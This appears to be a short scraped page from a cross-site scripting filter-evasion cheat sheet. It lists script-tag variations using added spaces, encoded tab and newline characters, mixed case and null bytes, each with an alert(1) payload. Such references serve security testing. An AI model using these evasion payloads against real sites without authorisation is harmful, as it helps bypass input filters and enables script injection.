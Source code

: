 # Basic modifications

Column: Doing basic things like adding spaces, encoding tabs, newlines and carriege rerurns can do a lot alread
Tags: <script>alert(1)</script>
<script >alert(1)</script>
<script >alert(1)</script>
Encoded tabs/newlines/CR
<script&#9>alert(1)</script>
<script&#10>alert(1)</script>
<script&#13>alert(1)</script>
Capital letters
<ScRipT>alert(1)</sCriPt>Adding nullbytes:
<%00script>alert(1)</script>
<script>al%00ert(1)</script>